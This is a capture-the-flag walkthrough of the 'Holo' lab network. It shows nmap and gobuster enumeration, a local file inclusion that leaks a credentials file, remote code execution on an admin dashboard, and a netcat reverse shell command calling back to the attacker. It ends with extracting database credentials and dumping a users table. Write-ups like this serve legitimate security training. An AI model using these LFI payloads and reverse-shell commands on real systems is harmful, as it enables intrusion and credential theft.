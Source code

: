 # Holo Walkthrough

Scope: 10.200.112.0/24 and 192.168.100.0/24.

### Nmap:
```bash
└─$ nmap -sV -sC -p- -v 10.200.112.0/24
Scanning 2 hosts [65535 ports/host]
Discovered open port 22/tcp on 10.200.112.250
Discovered open port 1337/tcp on 10.200.112.250
Discovered open port 22/tcp on 10.200.112.33
Discovered open port 80/tcp on 10.200.112.33
Discovered open port 33060/tcp on 10.200.112.33
```

```bash
└─$ nmap -sV -sC -p 22,80,1337,33060 -A -v 10.200.112.33 10.200.112.250

Nmap scan report for holo.live (10.200.112.33)
Host is up (0.11s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1d:bc:c0:2b:9e:98:ed:97:90:da:45:d5:8e:de:a1:7a (RSA)
|   256 91:f5:04:d5:6c:46:52:9a:9d:9e:7d:6b:b6:8d:59:2f (ECDSA)
|_  256 18:83:24:f6:fb:bc:be:5c:85:fb:9d:ea:2b:a6:ea:a4 (ED25519)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php 
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php 
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php 
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes 
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php 
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php 
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade 
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://www.holo.live/
|_http-server-header: Apache/2.4.29 (Ubuntu)
1337/tcp  closed waste
33060/tcp open   mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000

Nmap scan report for 10.200.112.250
Host is up (0.11s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0f:6f:f4:97:a2:f1:7a:6a:9c:44:fe:e0:09:05:dd:c6 (RSA)
|   256 59:bd:f8:47:fc:1e:3a:2f:98:fd:84:5f:11:84:f1:84 (ECDSA)
|_  256 f4:cc:6c:f2:ca:dc:fa:74:68:eb:25:b7:f6:ac:09:de (ED25519)
80/tcp    closed http
1337/tcp  open   http    Node.js Express framework
|_http-title: Error
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
33060/tcp closed mysqlx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Vhost Enumertaion

```bash
└─$ gobuster vhost -u http://holo.live -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt

Found: dev.holo.live
Found: admin.holo.live
```
- Found **robots.txt** on **admin.holo.live/robots.txt**
```text
User-agent: *
Disallow: /var/www/admin/db.php
Disallow: /var/www/admin/dashboard.php
Disallow: /var/www/admin/supersecretdir/creds.txt
```

- Navigate to **dev.holo.live** Found images under the Talents tab.
- On opening the image found that the `img.php` file is used to fetch images. Seems `LFI` vulnerability.
```url
http://dev.holo.live/img.php?file=images/korone.jpg
```
- Insert the file path of the credentials file we found in the **robots.txt** at **admin.holo.live/robots.txt**
```url
dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt
```
- Got credentials successfully.
```text
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
- Navigate to **http://admin.holo.live/** and log in using the credentials.

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/3b53ad85-683e-4701-8e50-4d93154e762b)

- Not really find anything interesting in the dashboard, but while looking at the page source, there I found:

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/b526acda-ecba-49a7-85d6-d82f76a7bc90)

- Maybe it is vulnerable to RCE. On trying I successfully got RCE.

![image](https://github.com/thesinghsec/HackingNotes101/assets/126919241/f64348b8-0234-4582-aefc-71c50db05318)

- Time to get the reverse shell on our system. For this I used [PenetstMonekey NetCat Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

`nc -e /bin/sh 10.0.0.1 1234`

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.50.109.29] from (UNKNOWN) [10.200.112.33] 54266
whoami
www-data
```
- In order to make a stable shell we need to run:
```python3
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Background the active shell using ctrl+z and use cmds

```bash
stty raw -echo
fg

www-data@40ad97ed7351:/var/www/admin$ whoami
whoami
www-data
```
- In **www** directory we have our 1st flag

- On further enumeration, I found **"db_connect.php"** file under /var/www/admin directory.
```bash
www-data@40ad97ed7351:/var/www/admin$ cat db_connect.php
cat db_connect.php
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```
- Try to login to the database from inside the container.
```bash
$ mysql -u admin -p -h 192.168.100.1
Enter password: !123SecureAdminDashboard321!

mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| DashboardDB        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use DashboardDB

mysql> show tables;
show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+

mysql> show columns from users;
show columns from users;

+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| username | varchar(256) | YES  |     | NULL    |       |
| password | varchar(256) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+

mysql> select * from users;
select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
```

